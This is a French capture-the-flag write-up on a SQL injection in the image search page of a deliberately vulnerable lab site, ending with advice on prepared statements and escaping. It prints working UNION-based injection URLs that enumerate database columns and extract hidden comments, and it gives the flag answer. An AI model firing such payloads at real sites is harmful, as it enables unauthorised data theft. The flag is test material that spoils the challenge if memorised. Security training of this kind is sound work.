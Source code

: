# Images Injection

## Trouver la faille :

En allant sur la page de recherche d'une image (`page=searchimg`), et en cherchant à tâtons, on trouve une image interessante :

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

On fait une injection SQL pour trouver les noms des colonnes de toutes les tables :
`http://192.168.1.12/?page=member&id=1 union all select 1,column_name from information_schema.columns&Submit=Submit`

On trouve plusieurs noms de colonnes et on en déduis en testant avec des injections (et un peu de logique) que celles concernant les images sont :

```
- `id`
- `url`
- `title`
- `comment`
```

On fait donc des injections pour récupérer les commentaires de l'image à l'ID 5 :

`http://192.168.1.12/?page=searchimg&id=5 union all select 1,comment from list_images&Submit=Submit`

On obtiens le resultat suivant :

```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

On décode md5 le sha donné ci-dessus et on obtiens le mot suivant : `albatroz`
On le mets en minuscule comme demandé (lol), et on le sha256 avec la commande suivante :

```
echo -n albatroz | tr '[:upper:]' '[:lower:]' | openssl dgst -sha256
```

Et on obtiens le flag suivant :
`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## S'en prémunir :

Elle consiste à insérer du code SQL dans des champs. Lorsque ces champs sont ensuite insérés en base, le code SQL est interprété et une nouvelle requête est envoyée à la base de données, ce qui permet d'obtenir, de modifier ou de supprimer des informations.

Plusieurs solutions pour s'en prémunir:

**1 - Les requêtes préparées**
Pour prévenir les injections SQL, il faut faire appel aux requêtes préparées, avec par exemple un ORM. Ce sont des requêtes dans lesquelles les paramètres sont interprétés indépendamment de la requête elle-même. De cette manière, il est impossible d'effectuer des injections.

**2 - Les fonctions**
Certaines fonctions permettent d'echapper le format de certaines données reçues.
